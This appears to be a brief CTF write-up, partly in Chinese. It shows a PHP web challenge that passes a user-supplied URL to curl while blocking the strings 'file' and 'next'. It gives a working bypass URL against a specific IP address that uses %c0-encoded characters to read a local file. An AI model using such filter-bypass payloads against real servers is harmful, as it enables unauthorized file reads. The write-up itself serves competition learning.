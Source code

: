 # web
### hello
```php
<?php
/*
Read /next.txt
Hint for beginners: read curl's manpage.
*/
highlight_file(__FILE__);
$url = 'file:///hi.txt';
if(
    array_key_exists('x', $_GET) &&
    !str_contains(strtolower($_GET['x']),'file') && 
    !str_contains(strtolower($_GET['x']),'next')
){
    $url = $_GET['x'];
}
system('curl '.escapeshellarg($url));
```
存在`strtolower`,使用特殊字符url编码绕过

```http
http://45.147.231.180:8000/?x=fi%c0le:///ne%c0xt.txt
```

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-09-23   04:55